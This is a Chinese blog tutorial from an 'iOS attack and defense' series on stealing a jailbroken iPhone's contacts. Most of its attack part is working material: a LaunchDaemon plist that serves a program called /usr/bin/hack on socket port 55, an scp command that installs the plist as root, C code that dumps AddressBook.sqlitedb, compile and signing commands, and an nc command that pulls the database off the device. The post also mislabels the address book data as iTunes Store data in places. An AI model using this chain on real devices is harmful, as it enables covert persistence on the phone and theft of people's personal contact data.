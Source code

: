title: iOS攻防——（二）如何窃取用户的通讯录信息
date: 2016-07-12 21:31:24
tags:
  - iOS
  - iOS攻防
categories:
  - iOS
  - iOS攻防
---

# 说明
2016年7月15更新，最近试了一下，发现用nc拿不到数据了，拿数据的代码是没有问题的，直接运行可以拿到数据，但是从mac通过IP和端口拿到的.sqlitedb文件是空文件，博主也正在看为什么~大家有兴趣可以一起找一下原因。

# 简介
本文章基于念茜的iOS攻防系列。
本文将会讲解如何窃取用户的通讯录信息。
同样在越狱手机环境下。

# hack
## 1. 需要一个plist
需要这样一个plist，它看起来是这样：

![](http://7xt4xp.com1.z0.glb.clouddn.com/blog_iOS%E6%94%BB%E9%98%B2%E2%80%94%E2%80%94%EF%BC%88%E4%BA%8C%EF%BC%89%E5%A6%82%E4%BD%95%E7%AA%83%E5%8F%96%E7%94%A8%E6%88%B7%E7%9A%84iTunesstore%E4%BF%A1%E6%81%AF-01.png)

<!--more-->

源文件是这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Program</key>
	<string>/usr/bin/hack</string>
	<key>StandardErrorPath</key>
	<string>/dev/null</string>
	<key>SessionCreate</key>
	<true/>
	<key>ProgramArguments</key>
	<array>
		<string>/usr/bin/hack</string>
	</array>
	<key>inetdCompatibility</key>
	<dict>
		<key>Wait</key>
		<false/>
	</dict>
	<key>Sockets</key>
	<dict>
		<key>Listeners</key>
		<dict>
			<key>SockServiceName</key>
			<string>55</string>
		</dict>
	</dict>
</dict>
</plist>

```

SockServiceName指的是通信名称
将plist文件传送到至iPhone/System/Library/LaunchDaemons/ 下 

```
scp /Users/zhoulingyu/Desktop/hack.plist root@192.168.31.152:/System/Library/LaunchDaemons/hack.plist
```



## 2. 了解一下OS X的启动原理

> 1. mac固件激活，初始化硬件，加载BootX引导器。
> 2. BootX加载内核与内核扩展(kext)。
> 3. 内核启动launchd进程。
> 4. launchd根据/System/Library/LaunchAgents、/System/Library/LaunchDaemons、/Library/LaunchDaemons、Library/LaunchAgents、~/Library/LaunchAgents里的plist配置，启动服务守护进程

解释一下：
> LaunchDaemons是用户未登陆前就启动的服务（守护进程）
> LaunchAgents是用户登陆后启动的服务（守护进程）

几个目录下plist文件格式及每个字段的含义：

| Key | Description | Required
| :-------------: | :------------- | :-----: |
| Label | The name of the job | yes |
| ProgramArguments | Strings to pass to the program when it is executed | yes |
| UserName | The job will be run as the given user, who may not necessarily be the one who submitted it to launchd. | no |
| inetdCompatibility | Indicates that the daemon expects to be run as if it were launched by inetd | no |
| Program | The path to your executable. This key can save the ProgramArguments key for flags and arguments. | no |
| onDemand | A boolean flag that defines if a job runs continuously or not | no |
| RootDirectory | The job will be?chrooted?into another directory | no |
| ServiceIPC | Whether the daemon can speak IPC to launchd | no |
| WatchPaths | Allows launchd to start a job based on modifications at a file-system path | no |
| QueueDirectories | Similar to WatchPath, a queue will only watch an empty directory for new files | no |
| StartInterval | Used to schedule a job that runs on a repeating schedule. Specified as the number of seconds to wait between runs. | no |
| StartCalendarInterval | Job scheduling. The syntax is similar to cron. | no |
| HardResourceLimits | Controls restriction of the resources consumed by any job | no |
| LowPriorityIO | Tells the kernel that this task is of a low priority when doing file system I/O | no |
| Sockets | An array can be used to specify what socket the daemon will listen on for launch on demand | no |

iOS基本类似，我基本是参照这个来的。

所以上面的plist实际上是要求系统启动一个进程。
一个名为`hack`的进程，可执行文件的路径是/usr/bin/hack。

## 3. 编写读取通讯录数据程序
iTunes Store的数据都在`/var/mobile/Library/AddressBook/AddressBook.sqlitedb`中，只要能能拿出AddressBook.sqlitedb就可以非法拿到用户的数据。


那么现在编写一个程序：

```c
#include <stdio.h>   
#include <fcntl.h>   
#include <stdlib.h>   
   
#define FILE "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"   
   
int main(){   
    int fd = open(FILE, O_RDONLY);   
    char buf[128];   
    int ret = 0;   
       
    if(fd < 0)   
        return -1;   
    while (( ret = read(fd, buf, sizeof(buf))) > 0){   
        write( fileno(stdout), buf, ret);   
    }   
    close(fd);   
    return 0;   
}  
```

用同样的方法编译、传输：

```
xcrun -sdk iphoneos clang -arch armv7 -o hack hack.c
```

签名：

```
ldid -S hack
mv hack /usr/bin
```

## 4. 抓取 iTunesstore 数据信息
利用netcat，指定之前定义的服务名称，抓取设备 iTunesstore 信息：

```
nc 192.168.31.152 55 > itunesstored2.sqlitedb
```

OK，在MAC查看一下内容。


----

有什么问题都可以在博文后面留言，或者微博上私信我，或者邮件我<coderfish@163.com>。

博主主要写javaEE和iOS的。

希望大家一起进步。

CSDN： [CSDN博客地址](http://blog.csdn.net/u010127917)

我的微博：[小鱼周凌宇](http://weibo.com/coderfish/)


